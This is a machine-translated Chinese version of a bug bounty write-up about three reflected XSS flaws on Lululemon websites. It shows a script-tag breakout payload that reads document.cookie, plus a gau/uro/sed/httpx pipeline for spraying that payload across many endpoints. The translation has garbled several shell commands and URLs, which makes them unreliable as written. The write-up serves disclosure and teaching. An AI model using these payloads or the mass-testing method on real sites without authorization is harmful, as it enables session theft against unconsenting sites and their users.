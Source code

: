 # 我是如何在 Lululemon bug 赏金程序中找到 3 个 rxs 的

> 原文：<https://infosecwriteups.com/how-i-found-3-rxss-on-the-lululemon-bug-bounty-program-fa357a0154c2?source=collection_archive---------0----------------------->

大家好，今天我将向你们展示如何用简单的技术找到整个子域中的多个系列漏洞

![](img/1bc6b86a2d0d7eca0fb107c01ce575f7.png)

## 让我们开始我们的故事

当我在 Bugcrowd 上搜索 [Lululemon](https://bugcrowd.com/lululemon) 节目时

我开始查看主域名[https://www.lululemon.co.uk](https://www.lululemon.co.uk)

在我花了一些时间在主域上之后，我开始使用 [Arjun](https://github.com/s0md3v/Arjun) 进行参数暴力破解

> https://www.lululemon.co.uk/en-uk/search-ot lululemon-parameters

输出文件如下所示

![](img/d600726de339b2b1495800389adfa9b0.png)

> ┌──(omar㉿kali)-[~]
> └─$猫 lululemon-参数| QS 替换奥马尔

![](img/1953c419909dcf8716c8ad13733b8078.png)

在浏览器中请求链接时发现 q 参数值反映在脚本标记内的双引号中

`<script>some javascript code;var q="omar"; some javascript code;</script>`

我试着去掉双引号，并像这样在脚本标签中注入我的有效载荷

> [https://www.lululemon.co.uk](https://www.lululemon.co.uk)/en-uk/search？q =奥马尔"；警报(域)；//

但是反射是这样的

`<script>some javascript code;var q="omar\";alert(domain);//"; some javascript code;</script>`

所以看起来开发者绕过了引号，以防止攻击者避开双引号，从而不注入恶意代码

开放标签<

> [https://www.lululemon.co.uk](https://www.lululemon.co.uk)/en-uk/search 怎么样？q =奥马尔<

倒影是这样的

`<script>some javascript code;var q="omar<"; some javascript code;</script>`

所以我希望开发人员在后台使用代码来打印 q 参数的值，就像这样

`<?php echo(addslashes($_GET['q'])) ?>`

这意味着我们不能使用引号，但我们可以关闭脚本标签，然后打开一个新标签，并在其中编写我们的 javascript 代码

> [https://www.lululemon.co.uk](https://www.lululemon.co.uk)/en-uk/search？q =</脚本> <脚本>预警(document . cookie)</脚本>

## 第一个 XSS 在:

[https://www.lululemon.co.uk](https://www.lululemon.co.uk)

![](img/94887dedcc6d820a1b8c1dc95b9ae01c.png)

通常，当开发人员犯了一个错误时，很有可能会在其他地方犯同样的错误

所以下一步是在其他域和子域端点上测试这个 XSS

## 简单侦察:

使用 [gau](https://github.com/lc/gau) 工具被动收集端点，然后使用 [uro](https://github.com/s0md3v/uro) 工具获得唯一端点，过滤图像、js、css 和其他静态文件

> ┌──(omar㉿kali)-[~]
> └─$猫子域. txt|gau |uro > endpoints.txt

使用 sed 命令将我们的“q”参数添加到所有端点，并将 url 编码的有效负载“”作为值

> ┌──(omar㉿kali)-[~]
> └─$？(.*)|$/\?q = % 3C % 2f script % 3E % 3c script % 3e alert(document . cookie)% 3C % 2f script % 3E/g " endpoints . txt

使用 httpx 请求端点，并使用参数-ms 匹配我们的有效负载

> ┌──(omar㉿kali)-[~]
> └─$ httpx-l endpoints . txt-ms "</脚本> <脚本>警报(document . cookie)</脚本>

这就是结果

## 第二个 XSS 在:

[https://www.lululemon.co](https://www.lululemon.co.uk)m.hk

![](img/16e46a9131d727c67892047ba21d6a08.png)

## 第三个 XSS 在:

https://www.eu.lululemon.co m

![](img/941e6663b47432459e104608a09cd83a.png)

# **保持联系:**

[**LinkedIn**](https://www.linkedin.com/in/omar-1-hashem)**|**[**Youtube**](https://www.youtube.com/channel/UCJ1yNtgZP5LRO7ebZXSnAZQ/videos)**|**[**Twitter**](https://twitter.com/OmarHashem666)

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！